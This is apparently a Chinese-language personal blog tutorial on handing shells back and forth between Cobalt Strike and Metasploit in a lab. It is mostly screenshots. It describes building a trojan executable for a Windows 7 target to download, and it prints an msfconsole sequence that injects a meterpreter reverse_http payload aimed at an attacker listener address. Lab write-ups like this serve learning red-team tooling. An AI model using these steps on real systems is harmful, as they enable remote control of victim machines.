```yaml
---
title: CobaltStrike学习三
mathjax: true
copyright: true
comment: true
date: 2019-10-16 16:35:10
tags: CobaltStrike
categories: 工具使用
---
```

能够与metasploit配合，可以相互派生shell，学会团队作战的理念，能够使用CS的协作功能。

<!-- more -->

---
## Cobalt strike派生shell给metasploit
- 前提有一个beaconshell

### 在metasploit处创建一个handler
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/KSBB%5D%7D%7E%60%608ODOHJ%5B%60GS.png)

### 使用cobaltstrike创建一个listener

这里port设置为创建msf的handler时的port
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/%7B1FG4M4%2495LS2%601NTIUP3.png)

### 利用已获得的beaconshell传给msf
chose 选择 msf这个listener

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/PGZGI0EXGA3CTJ7_T.png)

![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/DT%60NMP.png)

这里我没有成功，cs传给metasploit失败。没找到原因

## metasploit派生shell给cobaltstrike
- 前提是有一个metasploit的session
- 删除之前的记录。先在cobaltstrike创建一个listener，用于接收msf的派生shell
### cobaltstrike创建一个listener

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/EH.png)


### metasploit获取session
生成metasploit的木马

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/S0%60V%7E10WXVKMD%25Y69.png)

开启监听

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/Q53E8%603VQ6X3%7EP.png)

利用web服务开启渠道，选择之前生成的恶意文件test.exe

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/JW81.png)

win7下载testexe,获得session

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/3BX7AAP.png)

### cs获得meta的shell
```shell 
meterpreter > background
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject
msf5 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf5 exploit(windows/local/payload_inject) > set lhost 10.1.1.100
msf5 exploit(windows/local/payload_inject) > set lport 7777
msf5 exploit(windows/local/payload_inject) > set session 1
msf5 exploit(windows/local/payload_inject) > run

```
此时cobaltstrike 已经获得metasploit的shell
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/eeeee.png)

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/CFDTZ2X5V%7E9R%25BX%7BB5FC521.png)
